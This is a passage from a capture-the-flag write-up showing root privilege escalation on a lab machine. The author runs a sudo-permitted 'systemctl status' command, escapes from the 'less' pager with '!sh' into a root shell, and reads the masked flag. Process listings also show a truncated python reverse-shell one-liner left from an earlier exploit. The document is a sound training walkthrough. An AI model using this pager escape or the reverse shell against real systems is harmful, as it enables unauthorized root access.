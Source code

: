                  ├─1246 /bin/sh
                 ├─1248 script /dev/null -c bash
                 ├─1249 bash
                 └─1280 /usr/bin/systemctl status trail.service



### Exploit Less

If the screen is not big enough to handle the output of `systemctl`, it
gets passed to `less`. In fact, because I'm in a weird TTY, when I run
with `sudo`, this happens:



    puma@sau:~$ sudo /usr/bin/systemctl status trail.service 
    WARNING: terminal is not fully functional
    -  (press RETURN)● trail.service - Maltrail. Server of malicious traffic detection system
         Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
         Active: active (running) since Thu 2024-01-04 13:33:54 UTC; 2h 25min ago
           Docs: https://github.com/stamparm/maltrail#readme
                 https://github.com/stamparm/maltrail/wiki
       Main PID: 891 (python3)
          Tasks: 12 (limit: 4662)
         Memory: 26.7M
         CGroup: /system.slice/trail.service
                 ├─ 891 /usr/bin/python3 server.py
                 ├─1234 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p>
                 ├─1235 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p>
                 ├─1244 sh
                 ├─1245 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
                 ├─1246 /bin/sh
                 ├─1248 script /dev/null -c bash
                 ├─1249 bash
                 ├─1281 sudo /usr/bin/systemctl status trail.service
                 ├─1282 /usr/bin/systemctl status trail.service
                 └─1284 pager

    Jan 04 13:33:54 sau systemd[1]: Started Maltrail. Server of malicious traffic d>
    Jan 04 15:58:22 sau sudo[1270]:     puma : TTY=pts/1 ; PWD=/home/puma ; USER=ro>



At the bottom of the terminal there is text and it's actually hanging.
If I enter `!sh` in `less`, that will run `sh`, and drop to a shell:

![](/img/image-20240104110236282.png)

And I can grab the flag:



    # cd /root
    # cat root.txt
    ded99f75************************







